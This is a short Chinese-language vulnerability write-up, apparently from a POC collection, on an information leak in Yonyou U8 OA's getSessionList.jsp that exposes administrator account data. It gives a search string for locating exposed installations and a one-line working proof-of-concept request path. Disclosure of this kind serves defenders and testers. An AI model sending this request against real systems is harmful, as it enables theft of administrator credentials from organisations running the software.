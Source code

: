 # 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

## 漏洞描述

用友 U8 OA getSessionList.jsp文件，通过漏洞攻击者可以获取数据库中管理员的账户信息

## 漏洞影响

<a-checkbox checked>用友 U8 OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"用友U8-OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645976459870-e87ed43e-2b7e-432d-b0ca-4909d02748be.png)

验证POC

```javascript
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![img](../../../.vuepress/public/img/1645976484402-84e294eb-dd29-4cfa-b8d7-d7ce7b07a7ce.png)